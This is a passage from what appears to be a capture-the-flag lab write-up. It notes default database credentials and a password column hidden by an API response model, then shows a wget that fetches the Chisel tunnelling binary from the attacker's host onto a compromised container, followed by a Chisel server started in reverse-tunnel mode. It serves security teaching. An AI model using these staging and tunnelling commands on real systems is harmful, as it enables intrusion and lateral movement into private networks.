 The database is running as the postgres user with password “postgres” on 172.22.0.1.

Even though the user object that came back via the API only showed `id`, `email`, and `username`, there’s also a `password` column in the DB. That’s because the of the model that’s defined in `api/models.py`:

```

class userDB(BaseModel):
    id: int
    email: str
    username: str

```

It’s invoked in each of the routes in `api/users.py`. For example:

```

# List users
@router.get('/',response_model=List[userDB], status_code=201, dependencies=[Depends(is_logged), Depends(is_admin)])
async def get_users(request: Request):

    return await crud.get_users()

```

### Database

#### Chisel Tunnel

I’ll grab the latest release from the [Chisel release page](https://github.com/jpillora/chisel/releases/tag/v1.8.1) and (serving it with Python) upload it to the container:

```

/tmp # wget 10.10.14.6/chisel_1.8.1_linux_amd64
Connecting to 10.10.14.6 (10.10.14.6:80)
chisel_1.8.1_linux_a 100% |********************************| 8188k  0:00:00 ETA

```

I’ll now start the server, changing the listening port because Burp is already listening on the default of 8080, and allowing for clients to open up reverse tunnels:

```

oxdf@hacky$ /opt/chisel/chisel_1.8.1_linux_amd64 server -p 8000 --reverse
2023/03/01 15:27:13 server: Reverse tunnelling enabled
2023/03/01 15:27:13 server: Fingerprint ybrz1cfmVu7k7CBD0xbNbHyFj1iM1q+Hyes16akTrl4=
2023/03/01 15:27:13 server: Listening on http://0.0.0.0:8000

```

I’ll connect from the container:
